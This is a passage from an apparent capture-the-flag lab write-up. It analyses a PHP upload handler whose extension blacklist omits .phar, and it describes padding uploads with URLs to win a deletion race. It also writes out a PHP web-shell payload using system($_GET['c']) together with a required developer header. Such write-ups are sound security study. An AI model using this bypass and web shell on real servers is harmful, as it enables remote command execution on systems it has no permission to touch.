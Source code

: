 	  # Delete the uploaded file.
		@unlink($final_path);
	}
	
	function getExtension($file) {
		$extension = strrpos($file,".");
		return ($extension===false) ? "" : substr($file,$extension+1);
	}
	?>
	...SNIP...
	```
	> 1. Basically what the `PHP` code is doing is, 
	> 2. Checks if the file we uploaded is less than `10 kb`, else `die`
	> 3. Checks if the content of the file we uploaded, whether it has any banned extensions (This is to prevent `PHP` file from being uploaded). However, `.phar` is not in the list, this means that we can upload a `.phar` file to do code execution.
	> 4. Next, a directory (`uploads/md5sum/<uploaded file>`) is created to store our uploaded file.
	> 5. Next, it `curl` the URLs in our file.
	> 6. After the `for` loop goes through all the URLs, delete the uploaded file.
	{: .prompt-info }
5. How do we do a file upload bypass to execute `PHP` code
	1. Since `.phar` is not banned, we can execute `PHP` code
	2. We can add a bunch of URLs at the end of our  `PHP` code, this will give us sufficient time to browse to `/upload/md5sum/<uploaded file>` to execute our `PHP` code.
		```
		<PHP CODE>
		http://example.com
		http://example.com
		http://example.com
		http://example.com
		more URLs
		```

## TCP/80 (HTTP) - dev.siteisup.htb, File Upload Bypass + Command Execution
1. Add `Special-Dev: only4dev` Header w/ `hackbar`
	![]({{ page.img_path }}Pasted%20image%2020221024165304.png)
	> This will permanently add `Special-Dev: only4dev` Header.
	{: .prompt-info }
2. Create our payload
	```
	# Payload
	http://example.com
	<?php
	system($_GET['c']);
	?>
	http://example.com
	http://example.com
	http://example.com
	http://example.com
	http://example.com
	http://example.com
	http://example.com
	http://example.com
	http://example.com
	http://example.com
	more URLs
	```
	> It failed
	{: .prompt-info }